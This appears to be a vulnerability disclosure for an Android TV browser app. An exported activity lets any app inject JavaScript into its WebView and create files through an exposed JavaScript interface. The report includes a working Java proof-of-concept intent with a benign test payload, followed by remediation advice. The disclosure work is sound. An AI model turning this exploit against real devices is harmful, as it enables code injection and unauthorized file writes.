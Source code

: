 

---

### Vulnerability Report: Code Injection (CWE-94) & Arbitrary File Creation

#### Overview:
The `com.altamirano.fabricio.tvbrowser.MainActivity` activity is exported and can be invoked by third-party applications, exposing the app to potential attacks.

#### Affected Component:
- Component: `com.altamirano.fabricio.tvbrowser.MainActivity`

#### Code Injection Details:
An attacker can invoke the `MainActivity` of the `com.altamirano.fabricio.tvbrowser` app by sending an explicit intent. When a crafted URL containing malicious JavaScript is passed to the WebView, the code is executed within the app's context.

#### Arbitrary File Creation via JavaScript Interface Exposure:

The `MainActivity`'s WebView exposes certain JavaScript interfaces to web content. This exposes the app to arbitrary file creation vulnerabilities.

**Proof of Concept (Code Injection):**



```java
    public void launchBrowser() {
        // Constructing the JavaScript code to directly invoke the exposed JavaScript interface method.
        String base64TestData = "VGhpcyBpcyBhIHRlc3QgZm9yIHRoZSB2dWxuZXJhYmlsaXR5IFBvQy4="; // Represents "This is a test for the vulnerability PoC."
        String jsCode = String.format("javascript:if(window.Android && typeof window.Android.getBase64FromBlobData === 'function'){ window.Android.getBase64FromBlobData('data:text/plain;base64,%s', 'test.txt'); }", base64TestData);

        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("com.altamirano.fabricio.tvbrowser", "com.altamirano.fabricio.tvbrowser.MainActivity"));
        intent.setData(Uri.parse(jsCode));
        startActivity(intent);
}

```


![TVBrowserDemo](https://github.com/actuator/com.altamirano.fabricio.tvbrowser/assets/78701239/5835748e-cd5a-4d06-bd95-d56d0700867f)



---

#### Recommendations:
1. **Limit WebView Exposure:** Remove the exported status of activities containing a WebView or restrict them using intent filters.
2. **Validate URLs:** Ensure that URLs loaded in a WebView are validated and sanitized.
3. **Use JavaScript Safely:** Limit JavaScript access within the WebView. If required, only whitelist trusted scripts and sources.
4. **Restrict File Operations:** Ensure the exposed JavaScript interfaces don't grant unintended file permissions or access.

#### References:
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)
- [CWE-23: Relative Path Traversal](https://cwe.mitre.org/data/definitions/23.html)

---
